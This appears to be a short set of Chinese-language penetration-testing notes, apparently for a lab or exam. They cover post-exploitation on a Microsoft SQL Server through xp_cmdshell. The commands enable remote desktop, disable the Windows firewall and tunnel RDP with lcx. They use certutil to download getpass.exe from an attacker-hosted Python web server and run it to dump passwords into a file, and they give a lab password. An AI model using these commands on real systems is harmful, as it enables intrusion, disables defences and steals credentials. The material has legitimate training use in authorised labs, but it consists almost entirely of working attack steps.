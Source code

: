 ```
exec xp_cmdshell '3389.bat';
```

关闭防火墙

```
exec xp_cmdshell 'netsh firewall set opmode disable';
```

查看端口开放情况

```
exec xp_cmdshell 'netstat -an';
```

使用lcx的端口映射

```
exec xp_cmdshell 'lcx.exe -slave ![img](file:///C:\Users\28633\AppData\Roaming\Tencent\QQTempSys\%W@GJ$ACOF(TYDYECOKVDYB.png)192.168.1.149 2222 127.0.0.1 3389';
```

在自己这里执行

```
lcx.exe -listen 2222 3333
```

之后使用远程桌面（mstsc）连接127.0.0.1:3333就可以进行远程桌面连接了（前提是你已经上传了Getpass.exe）我们试验机的密码pa$$w0rd

\----------------

python变成http服务器

新版

```
python -m http.server 当前目录，并且8000端口
python -m http.server 9000 指定端口
```

旧版

```
python -m SimpleHTTPServer 8080
```

```
exec xp_cmdshell 'certutil -urlcache -f -split http://192.168.1.149/getpass.exe';
exec xp_cmdshell 'getpass.exe >> c:\\123.txt';
exec xp_cmdshell 'type c:\\123.txt';
```



------

192.168.70.149

访问网站
zenmap扫描ip（考场建议全端口扫描）

也可以用御剑扫描一下全站
发现phpinfo.php
